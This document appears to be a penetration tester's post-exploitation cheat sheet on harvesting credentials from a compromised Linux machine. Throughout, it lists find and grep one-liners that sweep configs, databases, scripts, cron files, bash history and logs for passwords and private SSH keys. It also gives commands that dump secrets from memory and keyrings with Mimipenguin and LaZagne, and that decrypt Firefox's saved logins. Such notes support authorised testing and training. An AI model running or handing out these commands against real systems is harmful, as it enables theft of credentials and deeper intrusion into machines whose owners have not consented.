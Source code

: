 ***POST FOOTHOLD*** 

Sources for Passwords:

| ==FILES==   | ==HISTORY==          | ==MEMORY==           | ==KEY-RINGS==              |
| ----------- | -------------------- | -------------------- | -------------------------- |
| Configs     | Logs                 | Cache                | Browser stored credentials |
| Databases   | Command-line History | In-memory Processing |                            |
| Notes       |                      |                      |                            |
| Scripts     |                      |                      |                            |
| Source code |                      |                      |                            |
| Cronjobs    |                      |                      |                            |
| SSH Keys    |                      |                      |                            |
## Files
*Everything is a file.*

###### Find configuration files (three common extentions):
```bash
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

###### Find credentials in configuration files (.cnf):
```bash
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

###### Databases:
```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

###### Search for notes (.txt) and no extension files:
```bash
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

###### Script files:
```bash
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

###### Cronjobs:
```bash
cat /etc/crontab
```

Cron files are located at `/etc/cron.d`
```bash
ls -la /etc/cron.*/
```

###### SSH Keys
```bash
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

## History
*.bash_history, .bashrc, .bash_profile*

###### Bash History
```bash
tail -n5 /home/*/.bash*
```

###### Logs
1. Application Logs
2. Event Logs
3. Service Logs
4. System Logs

|**Log File**|**Description**|
|---|---|
|`/var/log/messages`|Generic system activity logs.|
|`/var/log/syslog`|Generic system activity logs.|
|`/var/log/auth.log`|(Debian) All authentication related logs.|
|`/var/log/secure`|(RedHat/CentOS) All authentication related logs.|
|`/var/log/boot.log`|Booting information.|
|`/var/log/dmesg`|Hardware and drivers related information and logs.|
|`/var/log/kern.log`|Kernel related warnings, errors and logs.|
|`/var/log/faillog`|Failed login attempts.|
|`/var/log/cron`|Information related to cron jobs.|
|`/var/log/mail.log`|All mail server related logs.|
|`/var/log/httpd`|All Apache related logs.|
|`/var/log/mysqld.log`|All MySQL server related logs.|
Find interesting strings in logs:
```bash
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

## Memory and Cache
###### [Mimipenguin](https://github.com/huntergregal/mimipenguin) *Requires root perms*
Makes the process of gathering credentials easier.
```bash
sudo python3 mimipenguin.py
```
```bash
sudo bash mimipenguin.sh
```

[LaZagne](Credential%20Hunting%20in%20Windows): *Python2.7*
Capabilities:

|                |                |           |             |
| -------------- | -------------- | --------- | ----------- |
| Wifi           | Wpa_supplicant | Libsecret | Kwallet     |
| Chromium-based | CLI            | Mozilla   | Thunderbird |
| Git            | Env_variable   | Grub      | Fstab       |
| AWS            | Filezilla      | Gftp      | SSH         |
| Apache         | Shadow         | Docker    | KeePass     |
| Mimipy         | Sessions       | Keyrings  |             |

```bash
sudo python2.7 laZagne.py all
```

###### Browsers
==Firefox== stores credentials in `.mozilla/firefox/***.default-release/logins.json`. These hashes can be viewed with `cat <path>/default-release/logins.json | jq .`

We can then use [Firefox Decrypt](https://github.com/unode/firefox_decrypt) to decrypt said creds. *Requires python 3.9*.

```bash
python3.9 firefox_decrypt.py
```

==LaZagne== can also return results if the browser is supported.
```bash
python3 laZagne.py browsers
```
